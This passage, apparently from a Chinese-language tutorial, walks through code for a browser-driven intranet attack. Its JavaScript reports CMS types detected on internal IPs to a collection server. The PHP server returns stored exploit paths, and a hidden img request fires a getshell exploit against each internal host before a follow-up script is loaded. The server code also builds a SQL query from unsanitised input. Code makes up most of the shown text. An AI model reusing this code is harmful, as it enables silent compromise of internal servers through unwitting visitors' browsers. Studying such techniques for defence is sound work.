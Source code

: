 ```javascript
                document.getElementsByTagName("body")[0].appendChild(scriptTag);
            },2000);
        }
    }
    ipAjax.open('POST', snedIteratesCmsIpUrl, false);
    ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    ipAjax.send('existenceCmsIp='+ info.getAttribute("data-ipadder") + '&existenceCmsInfo=' + info.getAttribute("data-cmsinfo") + '&onlystring=' + onlyString);
}
```
其中info参数是成功调用的script标签的DOM元素对象。
首先让我们看下发送url的请求：

1. existenceCmsIp参数是检测到cms类型的IP地址

2. existenceCmsInfo参数是检测到cms类型

3. onlystring参数是唯一标识符，用于服务器判断属于哪一个项目。

接下来让我们看下onreadystatechange里面的内容：
```javascript
var vulCmsInfo = ipAjax.responseText;
var img = document.createElement("img");
img.setAttribute("scr",vulCmsInfo);
img.setAttribute("style","display:none;");
document.getElementsByTagName("body")[0].appendChild(img);
setTimeout(function(){
    var scriptTag = document.createElement("script");
    scriptTag.setAttribute("src","http://"+info.getAttribute('data-ipadder')+"/1.js");
    scriptTag.setAttribute("data-cmsinfo",info.getAttribute("data-cmsinfo"));
    scriptTag.setAttribute("data-vulip",info.getAttribute('data-ipadder'));
    scriptTag.setAttribute("onload","javascript:vulConfirm(this)");
    document.getElementsByTagName("body")[0].appendChild(scriptTag);
},2000);
```
首先就是var vulCmsInfo = ipAjax.responseText;，把服务器返回的字符串赋值给vulCmsInfo变量。服务端的代码是：
```php
/*
* 把客户端检测到存在CMS的IP加入到数据库中
*/
if(I('post.existenceCmsIp')  == "" || I('post.existenceCmsInfo') == "" || I('post.onlystring') == ""){
    $this->ajaxReturn(array(
        "typeMsg" => "error",
    ));
}
$existenceCmsIp               = I('post.existenceCmsIp');
$existenceCmsInfo             = I('post.existenceCmsInfo');
$onlyString                   = I('post.onlystring');
$existencecmsip               = M('existencecmsip');
$existenceData['inner_ip']    = $existenceCmsIp;
$existenceData['cms']         = $existenceCmsInfo;
$existenceData['onlystring'] = $onlyString;
$existenceData['create_time'] = date('Y-m-d H:i:s');
$existencecmsip->data($existenceData)->add();
/*
* 获取数据库中的cms漏洞详情，发送给客户端
*/
$cmsvul  = M('cmsvul');
$vulInfo = base64_decode($cmsvul->where('cms="'.$existenceCmsInfo.'"')->getField("vulinfo"));
echo "http://".$existenceCmsIp.$vulInfo;从代码中可以看到服务端返回的不是json数据，而是字符串，这个字符串是拼接好的url。这个url就是从获取到的IP地址加上服务器中调用属于cms漏洞的path路径。
```
然后使用img标签来发送get请求，用于触发此getshell漏洞。代码也就是：
```javascript
var img = document.createElement("img");
```